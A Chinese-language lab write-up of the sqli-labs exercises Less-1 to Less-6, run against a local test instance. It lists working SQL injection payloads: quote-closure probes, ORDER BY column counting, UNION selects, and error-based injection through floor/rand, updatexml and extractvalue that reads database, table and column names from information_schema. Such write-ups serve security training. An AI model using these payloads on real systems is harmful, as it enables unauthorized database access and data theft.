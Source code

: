 ### sqli-labs实验

#### Less-1

注入点测试：

http://127.0.0.1:8088/sqli-labs/Less-1/?id=1' and '1'='1

![image-20210524154821414](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524154821414.png)

http://127.0.0.1:8088/sqli-labs/Less-1/?id=1' --+

![image-20210524154901112](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524154901112.png)

由此判断为字符型注入

http://127.0.0.1:8088/sqli-labs/Less-1/?id=1' order by 4 --+

![image-20210524153922499](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524153922499.png)

http://127.0.0.1:8088/sqli-labs/Less-1/?id=1' order by 3 --+

![image-20210524153936985](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524153936985.png)

对比可得字段数为3

http://127.0.0.1:8088/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+

![image-20210524154952926](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524154952926.png)

存在union注入



#### Less-2

http://127.0.0.1:8088/sqli-labs/Less-2?id=1 and 1=1

未报错  故判断为数字型注入

http://127.0.0.1:8088/sqli-labs/Less-2?id=1 and 1=1 order by 3

未报错 可知查询字段数为3

http://127.0.0.1:8088/sqli-labs/Less-2?id=-1 union select 1,2,3

回显2,3  存在union注入



#### Less-3

http://127.0.0.1:8088/sqli-labs/Less-3/?id=1' --+

回显报错

http://127.0.0.1:8088/sqli-labs/Less-3/?id=1’） --+

未报错 可知为 ('') 闭合的字符型注入

http://127.0.0.1:8088/sqli-labs/Less-3/?id=1') order by 3 --+

未报错

http://127.0.0.1:8088/sqli-labs/Less-3/?id=1') order by 4 --+

报错可知查询字段数为3

http://127.0.0.1:8088/sqli-labs/Less-3/?id=-1') union select 1,2,3 --+

回显2,3  存在union注入



#### Less-4

http://127.0.0.1:8088/sqli-labs/Less-4/?id=1"--+

报错

http://127.0.0.1:8088/sqli-labs/Less-4/?id=1")--+

未报错 可见为 ("") 闭合的字符型注入

http://127.0.0.1:8088/sqli-labs/Less-4/?id=1") order by 3--+

http://127.0.0.1:8088/sqli-labs/Less-4/?id=1") order by 4--+

order by 判断字段数为3

http://127.0.0.1:8088/sqli-labs/Less-4/?id=-1") union select 1,2,3--+

回显2,3 存在union注入



#### Less-5

http://127.0.0.1:8088/sqli-labs/Less-5/?id=1'

![image-20210524162542365](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524162542365.png)

这里我们利用报错注入

(1). 通过floor报错

```
?id=1' and (select 1 from (select count(*),concat((SELECT schema_name FROM information_schema.schemata limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) -- -
```

输出字符长度限制为64个字符

(2). 通过updatexml报错

```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- -
```

其最长输出32位

(3). 通过ExtractValue报错

```
and extractvalue(1, payload)
```

最长32位。

这一关我们采用第（1）种

查询数据库：

```
http://127.0.0.1:8088/sqli-labs/Less-5/?id=2' and (select 1 from (select count(*),concat(( select group_concat(schema_name) from information_schema.schemata),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```

![image-20210524164240374](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524164240374.png)

查询表：

```
http://127.0.0.1:8088/sqli-labs/Less-5/?id=2' and (select 1 from (select count(*),concat((select group_concat(table_name)from information_schema.tables where table_schema='challenges'),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```

![image-20210524164600279](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524164600279.png)查询字段：

```
http://127.0.0.1:8088/sqli-labs/Less-5/?id=2' and (select 1 from (select count(*),concat((select group_concat(column_name)from information_schema.columns where table_name='d3pws2p4k4'),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```

![image-20210524170049037](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20210524170049037.png)

#### Less-6

```SQL
?id=1
?id=1'
```

输入以上payload都正常回显，但是用双引号的时候就会报错

```SQL
?id=1"
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210603175944124.png)
由此推断为双引号包围，与less-5相似，可用报错注入

```SQL
?id=1" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- -
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210603180233267.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUxNDU5NjAw,size_16,color_FFFFFF,t_70)


